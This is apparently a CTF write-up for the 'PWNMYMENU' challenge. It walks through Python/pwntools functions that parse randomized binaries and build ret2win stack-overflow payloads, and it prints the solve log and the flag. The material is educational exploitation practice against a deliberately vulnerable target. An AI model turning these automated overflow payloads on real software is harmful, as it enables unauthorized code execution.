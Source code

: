 # PWNMYMENU

### 392 pts

```
Do you like automation ? Well, you will have to automate some ret2win in order to get the flag :)

nc pwn.dvc.tf 8890 
```

Files: [pwnmymenu.tgz](./pwnmymenu.tgz)

## Analysis

We were given the entire sources of the challenge (wich is kinda weird), so understanding what to exploit is pretty easy:
	- We need to pwn "lvl1" 5 times
	- "lvl2" 5 times
	- and "lvl3" 10 times

For each level, it's a simple ret2win with the size of the stack randomized in a range between [1; 511]. For the level 2 and 3, 2 other random variables are introduced.

When we connect to the netcat, we get the base64 of the current challenge compiled.

```
$ nc pwn.dvc.tf 8890
f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAEBFAAAAAAABAAAAAAAAAACA4AAAAAAAAAAAAAEAAOAAN
AEAAHwAeAAYAAAAEAAAAQAAAAAAAAABAAEAAAAAAAEAAQAAAAAAA2AIAAAAAAADYAgAAAAAAAAgA
<snip>
AAAAACAEAAAAAAAAHQAAABMAAAAIAAAAAAAAABgAAAAAAAAACQAAAAMAAAAAAAAAAAAAAAAAAAAA
AAAAsDQAAAAAAABKAgAAAAAAAAAAAAAAAAAAAQAAAAAAAAAAAAAAAAAAABEAAAADAAAAAAAAAAAA
AAAAAAAAAAAAAPo2AAAAAAAAHwEAAAAAAAAAAAAAAAAAAAEAAAAAAAAAAAAAAAAAAAA=
aaaa
Enter your payload:
---------------------
---------------------
[+]    You failed exploiting my program ...
```

(Note that the IO is broken, the author probably forgot to flush the stdout when printing, so it makes everything a bit more annoying)

## Level 1

Basic ret2win, the only difficulty is to retrieve the size of the stack from the compiled binary. After the CTF, I saw that i could have used ELF.disasm from pwntools to have an easier way to retrieve the size of the stack. Anyway here's how I did it:

```python
e = ELF(f"level1.{n}", checksec=False)

vuln_func = e.sym["vuln"]
size = e.read(vuln_func+11, 2).hex()
if size[2] == "4":
	OFFSET = int(size[:2], 16)+8
else:
	size = size[2:] + size[:2]  # flemme de unpack
	OFFSET = int(size, 16)+8
```
In short: we go to the `vuln` function and look at the `sub rsp, 0x??` instruction at the function prologue. 
I'm curious on how the CPU knows the size of the instruction in order to know how to get the hex size, my dirty fix was to check if the next byte is "0x48" wich is the first byte of the next instruction. If so, I take the next 2 other bytes (max value is 511 so I just need 4 bytes, not all of them)

So here's the function that needs to be called 5 times:
```python
def payload_level1(n):
	e = ELF(f"level1.{n}", checksec=False)

	vuln_func = e.sym["vuln"]
	win_func = e.sym["win"]
	size = e.read(vuln_func+11, 2).hex()
	if size[2] == "4":
		OFFSET = int(size[:2], 16)+8
	else:
		size = size[2:] + size[:2]  # flemme de unpack
		OFFSET = int(size, 16)+8

	payload = b''.join([
		b"A"*OFFSET,
		p64(win_func)
	])

	return payload
```

## Level 2

Same as level 1, except now we have to find the `menu` value and the `submenu`, menu is in [1; 6] and submenu in [a, b, c, d, e]

This time, I find the instruction `cmp` for both of the values and extract the random value here. And for the stack, I just re-used the same code for the level 1.
```python3
main_func = e.sym["main"]
submenu_func = e.sym["submenu"]
menu = e.read(main_func+75, 2)[1]
submenu = e.read(submenu_func+55, 2)[1]
```
Nothing special, here's the function:

```python
def payload_level2(n):
	e = ELF(f"level2.{n}", checksec=False)

	main_func = e.sym["main"]
	win_func = e.sym["win"]
	submenu_func = e.sym["submenu"]
	vuln_func = e.sym["vuln"]

	menu = e.read(main_func+75, 2)[1]
	
	submenu = e.read(submenu_func+55, 2)[1]

	size = e.read(vuln_func+11, 2).hex()
	if size[2] == "4":
		OFFSET = int(size[:2], 16)+8
	else:
		size = size[2:] + size[:2]  # flemme de unpack
		OFFSET = int(size, 16)+8
	
	payload = b''.join([
		chr(menu).encode("utf-8"),
		b"\n",
		chr(submenu).encode("utf-8"),
		b"\n",
		b"A"*OFFSET,
		p64(win_func)
	])

	return payload
```

## Level 3

For this level, `menu` and `submenu` are longs, but at the end it's the exact same code as for level 2, I just had to change the offsets.

Here's the function:
```python
def payload_level3(n):
	e = ELF(f"level3.{n}", checksec=False)

	main_func = e.sym["main"]
	win_func = e.sym["win"]
	submenu_func = e.sym["submenu"]
	vuln_func = e.sym["vuln"]

	menu = e.read(main_func+78, 8)
	
	submenu = e.read(submenu_func+55, 8)
	
	size = e.read(vuln_func+11, 2).hex()
	if size[2] == "4":
		OFFSET = int(size[:2], 16)+8
	else:
		size = size[2:] + size[:2]  # flemme de unpack
		OFFSET = int(size, 16)+8

	payload = b''.join([
		menu,
		submenu,
		b"A"*OFFSET,
		p64(win_func)
	])

	return payload
```


## Script solve

You can find my entire script [here](./solve.py). When putting everything together I had a lot of trouble with the IO, sometimes it flushes when i'm supposed to read the base64 of the binary I tried to manage it, but it was not really working. I just restarted the script until it didn't crashed instead of fixing it. (It also takes a lot of time because I had a hard time reading the base64 so I just did a `recvrepeat(2)`)

```
python3 solve.py
[+] Opening connection to pwn.dvc.tf on port 8890: Done
PWNING LVL 1
Reading file 0... Sending payload n°0
<snip>
Reading file 4... Sending payload n°4
PWING LVL 2
Reading file 0... Sending payload n°0
<snip>
Reading file 4... Sending payload n°4
PWNING LVL 3
Reading file 0... Sending payload n°0
<snip>
Reading file 9... Sending payload n°9
[*] Switching to interactive mode
Submenu:
Enter your payload:
---------------------
<snip
---------------------
[+]    Level 1 finished successfully !
---------------------
<snip>
---------------------
[+]    Level 2 finished successfully !
---------------------
---------------------
<snip>
---------------------
---------------------
[+]    Level 3 finished successfully !
[+]    Flag is: `dvCTF{w04h_y0u_d3f3473d_my_m3nu}`
[*] Got EOF while reading in interactive
```

Flag: `dvCTF{w04h_y0u_d3f3473d_my_m3nu}`